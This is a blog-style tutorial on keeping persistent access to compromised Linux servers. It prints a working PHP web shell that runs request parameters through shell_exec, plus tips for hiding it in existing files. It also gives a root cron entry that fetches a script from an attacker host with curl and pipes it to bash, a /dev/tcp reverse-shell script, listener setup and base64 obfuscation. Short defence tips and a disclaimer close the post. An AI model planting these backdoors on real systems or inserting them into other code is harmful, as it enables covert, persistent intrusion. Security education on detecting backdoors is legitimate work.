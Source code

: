 ```yaml
---
title : "Linux Backdoors Part-II"
date : 2025-08-16 
layout : post
categories : [BACKDOOR]
tags : [PHP,CRONJOB,BACKDOOR]
author : jana
---
```


# PHP and Cron Job Backdoors: Gaining Persistent Access Like a Pro

In this post, we’ll dive into two powerful techniques attackers use to maintain access to a compromised Linux server: **PHP backdoors** and **cron job backdoors**. These methods are often used in **post-exploitation** scenarios to establish **persistence**. Let's break them down clearly, like a mentor would.

---

## 🔍 What Is a Backdoor?

A **backdoor** is a hidden way to regain access to a system after the initial exploit. Once an attacker gains access (especially root access), they may leave a small script or schedule a task to reconnect to them — so even if you reboot the server or patch the vulnerability, they can come back in.

---

## 🐘 PHP Backdoors

A **PHP backdoor** is a small PHP script that allows an attacker to execute system commands via a web browser.

### ✅ Example Code:

```php
<?php
    if (isset($_REQUEST['cmd'])) {
        echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
    }
?>
```

## 🔧 How It Works:

- This script checks for a cmd parameter in the request.

- It uses **shell_exec()** to run any system command sent via the browser.

- Output is displayed in **<pre>** tags for readability.

## 🌐 Usage:

- If the file is saved as shell.php in  `/var/www/html` , an attacker can do:

```bash
http://<target-ip>/shell.php?cmd=whoami
```
## Other useful examples:

- `ls` – list files

- `cat /etc/passwd` – read sensitive files

- `nc` – establish reverse shells

## 🕵️ How Attackers Hide It:

- Inject the backdoor into an existing file like index.php.

- Change cmd to a less suspicious name (e.g., x1 or auth_key).

- Store the file in an obscure folder (e.g., /var/www/html/img/).

## ⏰ Cron Job Backdoors

- A cron job is a scheduled task. Attackers can schedule a reverse shell to run every minute, ensuring they maintain access.

## ✅ Example Cron Entry:

```
* * * * * root curl http://<attacker-ip>:8080/shell | bash
```
### This does the following:

Runs every minute (* * * * *)

As the root user

Downloads a script from the attacker's server using curl

Pipes it into bash for execution

## 🔥 Shell Script Example:

- On the attacker’s server (hosted at port 8080), the shell file contains:

```bash
#!/bin/bash
bash -i >& /dev/tcp/<attacker-ip>/<port> 0>&1
```
## 🛠️ Setup:

Host the shell:

```bash
python3 -m http.server 8080
```

- Start listening for a connection:

```bash
nc -nvlp <port>
```
- Wait for the cron to trigger.

## ⚠️ Why It's Risky:

- Visible in /etc/crontab

- Easily detected by sysadmins

- Logs may show repeated traffic to external IPs

## 🕶️ Making It Sneakier

Attackers may:

- Use user-level crontabs via `crontab -e` instead of global `/etc/crontab`

- Base64-encode the reverse shell to avoid detection:

```bash
echo "<encoded_script>" | base64 -d | bash
```

- Name scripts something innocuous like  `/update-check` or `/sys-patch`

## 🧠 Final Thoughts
- Both PHP and cron job backdoors are powerful tools in an attacker's toolkit. As an ethical hacker or security professional, understanding how these work is essential — both for offensive use (in labs/CTFs) and for detecting/removing them during incident response.

## 🛡️ Tips for Defense:

- Monitor for unexpected PHP files or parameters in web root.

- Regularly audit /etc/crontab and user crontabs.

- Monitor outbound connections from critical servers.

- Use tools like auditd, chkrootkit, or rkhunter.

### ⚠️ Disclaimer: This post is for educational and ethical hacking purposes only. Always have permission before testing any technique on a live system.
